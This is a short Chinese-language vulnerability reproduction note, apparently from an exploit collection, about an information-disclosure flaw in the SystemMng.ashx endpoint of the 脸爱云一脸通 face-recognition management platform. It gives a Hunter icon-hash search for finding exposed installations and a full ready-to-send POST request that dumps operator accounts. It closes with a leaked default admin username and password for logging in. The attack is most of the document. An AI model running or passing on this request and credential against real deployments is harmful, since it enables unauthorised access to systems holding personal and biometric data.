 # 脸爱云一脸通智慧管理平台SystemMng存在信息泄露漏洞

# 一、漏洞简介
<font style="color:rgba(0, 0, 0, 0.9);">脸爱云一脸通智慧管理平台是一套功能强大，运行稳定，操作简单方便，用户界面美观，轻松统计数据的一脸通系统。无需安装，只需在后台配置即可在浏览器登录。脸爱云一脸通智慧管理平台SystemMng存在信息泄露漏洞。</font>

# <font style="color:rgba(0, 0, 0, 0.9);">二、影响版本</font>
+ 脸爱云一脸通智慧管理平台

# 三、资产测绘
+ hunter`web.icon=="4f0be080512ee0b45fc90ff894b6ba60"`
+ 特征

![1700642739314-bb174ac2-c85b-471b-90e8-ed6c02ba5c28.png](./img/KtUZ6_k7ZH5x80Dq/1700642739314-bb174ac2-c85b-471b-90e8-ed6c02ba5c28-429358.png)

# 四、漏洞复现
```java
POST /SystemMng.ashx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Content-Length: 91
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest

page=1&arr_search=%7B%22username%22%3A%22%22%2C%22memo%22%3A%22%22%7D&funcName=getOperators
```

![1714289895012-ee2f78c8-a94c-4a20-ad0c-e26a9fb89139.png](./img/KtUZ6_k7ZH5x80Dq/1714289895012-ee2f78c8-a94c-4a20-ad0c-e26a9fb89139-479801.png)

使用泄露的账号密码登录系统`admin/LSFace2023`





> 更新: 2024-04-28 15:39:23  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/qgkd6zg49i5orfef>